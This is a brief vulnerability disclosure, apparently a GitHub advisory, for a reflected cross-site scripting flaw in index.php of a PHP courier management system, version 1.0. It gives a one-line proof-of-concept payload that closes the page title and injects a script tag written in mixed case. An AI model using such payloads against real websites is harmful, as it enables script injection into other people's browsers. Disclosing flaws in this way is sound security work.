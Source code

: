 * Exploit Title: best-courier-management-system - reflected xss

* Software Link: https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html

* Version: 1.0  

* Vulnerable file:index.php
![image](https://github.com/BigTiger2020/2023/blob/main/best-courier-management-system/xss-1.png)  


* POC:  
</TiTlE><ScRiPt>alert(1)</ScRiPt>

![image](https://github.com/BigTiger2020/2023/blob/main/best-courier-management-system/xss-m.png)   
